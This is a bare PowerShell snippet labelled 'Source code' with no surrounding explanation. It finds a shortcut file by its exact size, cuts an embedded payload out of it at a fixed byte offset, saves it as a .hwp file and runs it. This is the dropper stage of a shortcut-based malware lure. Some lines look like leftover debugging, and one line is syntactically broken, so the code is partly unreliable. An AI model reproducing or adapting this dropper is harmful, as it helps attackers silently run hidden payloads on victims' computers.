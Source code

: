 $lk=ls -Path '.\' ;
ac -path "C:\Users\user\Downloads\1.txt" $lk
$lk= Where {$lk.length -eq 56397};
ac -path "C:\Users\user\Downloads\1.txt" $lk
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2 | Where {$_.length -eq 56397}};
$n=$lk.name.Replace('.lnk','.hwp');

$lk=$lk.FullName;$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];

$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);
&$fsdf;








